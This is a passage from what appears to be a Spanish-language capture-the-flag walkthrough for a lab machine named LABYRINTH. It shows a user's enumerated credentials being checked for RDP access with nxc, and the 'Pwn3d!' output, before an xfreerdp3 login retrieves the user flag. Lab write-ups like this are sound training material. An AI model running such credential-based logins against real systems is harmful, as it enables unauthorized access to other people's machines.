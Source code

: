 El usuario SUSANNA_MCKNIGHT tiene acceso de lectura a NETLOGON y SYSVOL.

---

## Parte 3: Explotación
### Teoría
Las credenciales SUSANNA_MCKNIGHT:CHANGEME2023! obtenidas durante la enumeración permiten el acceso al sistema si el usuario tiene permisos de inicio de sesión remoto. El servicio RDP (puerto 3389) está abierto en 10.10.120.231, lo que lo convierte en un vector viable para el acceso inicial.

### Herramienta o script utilizado
nxc para verificar el acceso RDP y xfreerdp3 para la conexión RDP.

### Comando y resultado
Verificación de acceso RDP con nxc:
```
nxc rdp 10.10.120.231 -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
RDP         10.10.120.231   3389   LABYRINTH        [*] Windows 10 or Windows Server 2016 Build 17763 (name:LABYRINTH) (domain:thm.local) (nla:True)
RDP         10.10.120.231   3389   LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:CHANGEME2023! (Pwn3d!)
``` 

El resultado indica que las credenciales son válidas para RDP.
Conexión RDP:
```
xfreerdp3 /v:10.10.120.231 /u:'SUSANNA_MCKNIGHT' /p:'CHANGEME2023!' /dynamic-resolution /clipboard /cert:ignore`
``` 

Se establece una sesión RDP con el usuario SUSANNA_MCKNIGHT. Se obtuvo la flag de usuario desde el escritorio del usuario.  
